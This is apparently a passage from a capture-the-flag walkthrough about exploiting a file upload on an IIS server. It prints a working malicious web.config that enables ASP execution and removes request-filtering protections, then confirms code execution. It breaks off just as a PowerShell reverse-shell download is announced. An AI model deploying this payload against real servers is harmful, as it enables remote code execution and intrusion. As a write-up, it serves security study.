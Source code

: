 I test the vulnerability with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />  </handlers>
         <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Response.write(1+2)
%>
```

Upload the web.config file to the webserver:

![Untitled](/assets/images/2022-01-12-bounty/Untitled2.png)

To the if it worked, I open the file:

![Untitled](/assets/images/2022-01-12-bounty/Untitled3.png)

The number 3 proofs that this is working. So I will create a powershell script, that is downloaded and executed on the target machine to create a reverse shell. Here is the powershell script:
